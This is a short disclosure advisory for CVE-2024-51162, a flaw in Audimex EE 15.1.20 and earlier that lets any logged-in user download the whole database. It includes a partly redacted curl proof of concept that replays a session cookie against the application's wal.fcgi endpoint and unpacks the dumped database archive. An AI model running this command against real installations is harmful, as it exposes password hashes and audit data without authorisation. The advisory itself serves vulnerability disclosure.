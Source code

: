 # CVE-2024-51162
An issue in Audimex v.15.1.20 and before allows a remote attacker to escalate privileges. 
Analyzing the offline client code, it was identified that it is possible for any user (with any privilege) of Audimex to dump the whole Audimex database. This gives visibility upon password hashes of any user, ongoing audit data and more.

# Affected Product & Version
Audimex EE <= 15.1.20

# PoC
Replace the cookie placeholder with the cookie of any valid user:
```
curl -s -k -X $'POST' -b $'wal_sid_axdx_1={COOKIE_OF_ANY_VALID_USER}' [REDACTED FOR THE MOMENT] -F "sid=axdx_1" $'https://{HOST}/app/cgi-bin/wal.fcgi' -o db.zip && 7z -y x db.zip
```

# Credits
This vulnerability was discovered by Leo Georget of Henkel Cyber Security team.
